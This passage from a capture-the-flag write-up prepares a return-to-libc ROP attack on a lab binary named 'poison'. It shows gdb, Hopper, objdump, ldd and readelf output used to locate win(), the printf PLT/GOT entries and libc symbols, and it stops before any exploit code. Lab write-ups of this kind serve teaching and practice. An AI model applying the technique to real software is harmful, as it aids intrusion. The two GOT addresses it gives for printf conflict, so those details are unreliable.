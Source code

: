 #### Get addresses of functions

Address of win()

    (gdb) info add win 
    Symbol "win" is at 0x401daf in a file compiled without debugging.

Address of main()

    (gdb) info add main 
    Symbol "main" is at 0x401d2a in a file compiled without debugging.

At first, I thought that we can simply call the win() method. But apparently, win() only prints out the first 10 chars of the flag. We have to use libc rop to call system() and solve this challenge.

#### Leak LIBC

In order to leak libc, we need to do the following in ROP form.

    printf@plt(*printf@got)

This will give us the address of printf in libc.

Decompile in hopper. Find PLT and GOT of printf

    j_printf:        // printf
    0000000000401050         jmp        qword [printf@GOT]     

    printf@GOT:        // printf
    0000000000603038         dq         0x0000000000604020 

Use objdump, we can find GOT also

    # objdump -R poison | grep printf
    0000000000404028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5

#### Offsets to system (Locally)

Do locally check using LDD

    # ldd -r -v poison     
        linux-vdso.so.1 (0x00007fffdc78f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6b21720000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6b218e6000)

        Version information:
        ./poison:
            libc.so.6 (GLIBC_2.7) => /lib/x86_64-linux-gnu/libc.so.6
            libc.so.6 (GLIBC_2.2.5) => /lib/x86_64-linux-gnu/libc.so.6
        /lib/x86_64-linux-gnu/libc.so.6:
            ld-linux-x86-64.so.2 (GLIBC_2.3) => /lib64/ld-linux-x86-64.so.2
            ld-linux-x86-64.so.2 (GLIBC_PRIVATE) => /lib64/ld-linux-x86-64.so.2

    # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep __libc_start_main
      2203: 0000000000022a30   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
